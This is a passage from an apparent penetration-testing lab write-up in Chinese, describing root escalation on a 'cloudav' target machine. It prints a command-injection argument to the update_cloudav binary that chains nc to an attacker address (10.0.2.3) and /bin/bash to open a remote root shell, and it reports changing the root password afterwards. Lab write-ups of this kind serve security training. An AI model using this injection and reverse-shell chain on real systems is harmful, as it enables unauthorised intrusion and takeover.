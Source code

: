 这个程序直接以 root 权限处理用户输入，直接运行：`./update_cloudav "/bin/sh"` 

```yacas
scanner@cloudav:~$ ./update_cloudav "/bin/sh"
./update_cloudav "/bin/sh"
ERROR: Problem with internal logger (UpdateLogFile = /var/log/clamav/freshclam.log).
ERROR: initialize: libfreshclam init failed.
ERROR: Initialization error!
ERROR: /var/log/clamav/freshclam.log is locked by another process
```

之后才发现是因为开了两个 `ncat` 导致 `freshclam.log` 被锁了，解决问题后使用下面的 `ncat` 串连

`./update_cloudav "helloworld | nc 10.0.2.3 114 | /bin/bash | nc 10.0.2.3 514"` 

获得了 root 权限

![image-20251022160320292](images/image-20251022160320292.png)

---

## 渗透结果

成功获取了 root 权限并且修改了 root 密码，登录靶机界面，输入新密码进入 root 账号：
